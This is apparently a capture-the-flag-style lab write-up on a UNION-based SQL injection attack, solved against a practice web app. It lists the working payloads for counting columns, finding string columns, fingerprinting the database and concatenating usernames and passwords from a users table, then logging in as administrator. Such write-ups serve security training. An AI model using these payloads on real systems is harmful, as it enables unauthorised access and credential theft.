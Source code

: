 # SQL injection UNION attack, retrieving multiple values in a single column
- SQL injection vulnerability in the product category filter.
- use a UNION attack to retrieve data from other tables.
- The database contains a different table called users, with columns called username and password.
# Goal
- To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.
# Solving The lab
- finding number of columns
```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```
- after trying payloads we fnd that db has 2 columns
- now to determining datatypes of columns or which columns has string datatype
```
' UNION SELECT 'a',NULL--
' UNION SELECT NULL,'a'--
```
- second payload works and the second column is the string datatype
- now to ouput data from columns we cna use 2 methods first one is to ouput each column alone and second method is to concatenate the results
- first we need to determine db version to procced with the concatenation
- we try differnet payloads
```
' UNION SELECT NULL,@@version--   Microsoft/MYSQL
' UNION SELECT NULL,version()--   PostgreSQL
```
- the second payload works and its a postgresql db
- postgresql ways of concatenation
```
'foo'||'bar'
```
- so final payload built from lab description and postgresql conctatination
```
' UNION select NULL, username || '*' || password from users--
```
- we got the username and password creds we login with administartor and we solved the lab
